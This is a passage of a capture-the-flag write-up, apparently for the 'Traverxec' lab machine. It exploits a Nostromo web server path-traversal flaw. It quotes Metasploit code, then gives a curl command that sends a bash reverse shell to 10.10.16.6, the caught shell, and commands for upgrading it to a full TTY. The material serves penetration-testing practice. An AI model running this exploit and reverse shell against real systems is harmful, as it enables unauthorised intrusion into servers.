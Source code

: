 ```shell
       valid_lft forever preferred_lft forever
```

Alternatively, we can do it manually by reading the metasploit code:
```ruby
def execute_command(cmd, opts = {})
send_request_cgi({
  'method'  => 'POST',
  'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
  'headers' => {'Content-Length:' => '1'},
  'data'    => "echo\necho\n#{cmd} 2>&1"
  }
)
end
```

Since it's doing directory traversal and some URL encoding probably to bypass some filters, and doing so in a POST request, we can try to do this with curl:

```shell
❯ curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/53 0>&1"'
```

We receive a shell back:
```shell
❯ sudo nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 49166
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

## Fully Interactive Shell

We can enable a full TTY/PTY shell with the following commands

In a reverse shell initiate a bash shell \(choose one of the following, the idea is to spawn a bash shell\):

```text
script /dev/null -c bash
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/bash -i
perl —e 'exec "/bin/bash";'
```

Hit Ctrl+Z to get out of the shell and leave it running in the background, then in your console set TTY.

```text
stty raw -echo; fg
```
